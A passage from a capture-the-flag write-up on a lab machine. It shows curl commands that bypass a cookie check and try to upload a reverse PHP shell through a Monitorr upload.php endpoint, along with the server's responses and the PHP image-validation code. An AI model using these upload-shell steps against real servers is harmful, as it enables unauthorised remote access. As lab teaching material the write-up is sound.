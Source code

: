 Ok, so if we can upload the reverse shell code with `upload.php` we can get inside the box.

# Exploiting

```sh
$ curl -X POST -d  -v https://monitorr.robyns-petshop.thm/assets/php/upload.php -k

<div id='uploadreturn'>You are an exploit.</div><div id='uploaderror'>ERROR: ../data/usrimg/ already exists.</div><div id='uploaderror'>ERROR:  was not uploaded.</div></div>   
```

Oh yeah, the cookie.

```sh
$ curl -X POST -d  -v -b "isHuman=1" https://monitorr.robyns-petshop.thm/assets/php/upload.php -k

<div id='uploadreturn'><div id='uploaderror'>ERROR:  is not an image or exceeds the webserver’s upload size limit.</div><div id='uploaderror'>ERROR: ../data/usrimg/ already exists.</div><div id='uploaderror'>ERROR:  was not uploaded.</div></div>    
```

Uploading reverse PHP shell.

> Look for the reverse shells cheat sheet in _Additional readings_ 

```sh
$ curl -X POST --data @pshell.php -b "isHuman=1" https://monitorr.robyns-petshop.thm/assets/php/upload.php -k 

<div id='uploadreturn'><div id='uploaderror'>ERROR:  is not an image or exceeds the webserver’s upload size limit.</div><div id='uploaderror'>ERROR: ../data/usrimg/ already exists.</div><div id='uploaderror'>ERROR:  was not uploaded.</div></div>   
```

In the `/upload.php` we can read:

```php
$check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);

 #...

if($check !== false) {
        echo "File " . $rawfile . " is an image: " . $check["mime"] ;
            echo "<br>";
        $uploadOk = 1;
    } 
    
else {
    echo "<div id='uploaderror'>";
        echo "ERROR: " . $rawfile .  " is not an image or exceeds the webserver’s upload size limit.";
    echo "</div>";
    $uploadOk = 0;
}
```
